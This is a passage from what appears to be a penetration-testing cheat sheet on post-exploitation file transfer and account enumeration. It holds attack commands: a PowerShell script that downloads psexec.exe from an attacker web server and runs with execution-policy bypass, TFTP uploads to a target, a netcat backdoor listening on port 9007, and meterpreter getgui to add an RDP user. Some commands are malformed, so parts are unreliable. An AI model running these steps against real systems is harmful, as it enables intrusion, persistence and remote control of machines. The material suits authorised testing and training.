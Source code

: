 ##  <a name="6.8"></a>6.8 File transfer
* If we have a meterpreter shell then we can transfer files, if not then we need to find what is available.
	* `find / -name wget`
	* `find / -name nc*`
	* `find / -name netcat*`
	* `find / -name tftp*`
	* `find / -name ftp`

## <a name="6.9"></a>6.9 User/Group account evasion
* With a for loop in the Windows command shell, we can combine "wmic" and "net-user" to get extended information about all the users on the system.
	* `-for /F "skip=1" %i in ('wmic useraccount get name') do net user %i >> users.txt`
* Groups
	* `-for /F "delims=* tokens=1 skip=4" %i in ('net localgroup') do net localgroup %i >>groups.txt`

* Powershell Script to transfer a file.
	* Start the web server on the attacker machine.
		* `service http2 start`
	* `echo $client = New-Object System.Net.WebClient > script.ps1`
	* `$client.DownloadFile($targetlocation,"psexec.exe")`
	* Execute the script.
		* `powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script.ps1`

	* Example:
		* Network services version check.
			* `nmap -sV ip_address` 
		* Nessus -> Basic network scan.
		* `nmap -sC ip_address`
		* If there is a web server navigate via browser. -> use dirbuster .
		* Maintain the excel sheet.
		* Scan with vega.

	* Task Add a user and  Task transfer a file using sqli

	* atftpd
		* `atftpd --daemon --port port_no --bind-address ip_address /tmp`
		* Or use any other folders

	> Always tftp server to own the system

	* tftp
		* `ascii`
		* `connect`
		* `tftp -i ip_address PUT runsnort.bat`

	* Install backdoor
		* `netcat on`
		* `upload /usr/share/nc.exe c:\\`
		* `nc -L -p 9007`
	* meterpreter
		* `run getgui -u username -p password`
		* `rdesktop -u username -p password`
